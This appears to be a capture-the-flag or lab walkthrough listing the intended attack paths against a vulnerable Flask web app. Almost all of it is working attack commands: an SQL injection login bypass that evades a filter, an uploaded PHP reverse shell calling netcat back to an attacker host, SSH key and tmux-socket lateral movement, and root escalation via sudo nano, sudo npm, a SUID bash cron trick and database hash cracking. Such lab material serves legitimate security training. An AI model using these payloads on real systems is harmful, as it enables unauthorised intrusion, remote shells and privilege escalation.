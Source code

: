 ## Initial Access Point 2

SQL Injection (since the or gets sanitized, we can do this "oorr"): 
```
username = admin' oorr '1' = '1' -- 
OR
password = admin' oorr '1' = '1' -- 

# remember to put a space after --
```

## Initial Access Point 3

Upload File Vulnerability (Reverse shell):
1. upload a php file with the following content:
```
<?php
system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <Attacking IP> <Attacking Port> >/tmp/f");
?>
```

2. Use burp suite/python to intercept the upload file request
```
Change the content type to image/png or image/jpeg
```

3. Run the command on your attacking machine:
```
nc -lvnp <Match the port in the php file>
```

4. Go the the following endpoint
```
<Victim IP>:5000/uploads/<filename.php>
```

## Horizontal Escalation Vector 1

puttygen /tmp/.sys_cache/.thumb -O private-openssh -o /tmp/converted_id
chmod 600 /tmp/converted_id
ssh -i /tmp/converted_id alice@localhost

## Horizontal Escalation Vector 2

cat /var/log/flaskapp.log

## Horizontal Escalation Vector 3

tmux -S /tmp/alice_tmux.sock attach -t shared

## Vertical Escalation Vector 1

```
sudo -l

sudo nano
^R^X
reset; sh 1>&0 2>&0
bash
```

## Vertical Escalation Vector 2

```
TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
sudo npm -C $TF --unsafe-perm i
```

## Vertical Escalation Vector 3

```
vi /opt/tmp.py

#!/usr/bin/env python
import os
import sys
try:
     os.system('chmod +s /bin/bash')
except:
     sys.exit()

# Wait for cron job to run
/bin/bash -ip
```

## Vertical Escalation Vector 4

```
env
psql -h localhost -U "$LAB_DB_USER" -d "$LAB_DB_NAME"
\l
\c labdb
\dt
SELECT * FROM users;

# Get the hash and crack it with hashcat
hashcat -m 3200 pass.hash /usr/share/wordlists/rockyou.txt
```
